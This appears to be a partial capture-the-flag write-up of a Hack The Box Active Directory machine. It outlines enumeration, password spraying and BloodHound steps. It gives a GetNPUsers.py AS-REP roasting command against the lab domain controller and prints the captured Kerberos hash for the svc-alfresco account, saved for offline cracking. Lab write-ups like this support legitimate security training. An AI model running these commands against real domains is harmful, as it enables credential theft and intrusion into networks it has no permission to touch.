

- nmapAutomator
- ldap
- Initial Foothold
- smb
- password spray user accts w/ custom password list
- getNPUsers.py
- privesc
- sharphound
- run SharpHound.exe on victim
- encode/copy/paste files back to attack machine
- OR set up smb share between attack and victim machines
- neo4j
- attackpath
- user/root
- Lessons Learned
getNPUsers.py
If kerberos pre-authentication is disabled on any of the box's accounts, we can use the GetNPUsers impacket script to send a dummy request for authentication. The Key Distribution Center KDC will then return a Ticket Generating Ticket TGT that is encrypted with the user's password. From there, we can take the encrypted TGT, run it through a password cracker and brute force the passwordGetNPUsers.py htb.local/ -dc-ip 10.10.10.161 -request

the Kerberos pre-authentication option has been disabled fr the user svc-alfresco and the KDC gave us back a TGT with the user's password
$krb5asrep$23$svc-alfresco@HTB.LOCAL:4933542ada6053e22fa16eacac49dc5d$6f4f91cc61441ebca25cad737b2941e4349126068e0e575b7b13d0ff5b748acfb529e8d18353750a618ef3a16e506ad9e9beb93e932f2fc088357d0fe8e3180d69c572d7561d62d5dd31fce165b10088f3a79f6b0a7d31f1dd6209e08e42d14f540a909f2803b182d588a9f3171c99282c88d29c17e9774c7f69c0e60a9c12f2cb2f2440468f61684b8f6e992e2b10b7620c9bd8891e6f7978cdb665e29417df2bd6f2003373babc82a92d07a1e9cf5a8566da337aee509bccbc8975e5ec749f201158e24730c811a485b9d810ea92df5cf741591d8a98ed44295cb750cd29f755b85a26f63c
lets save the ticket to hash.txt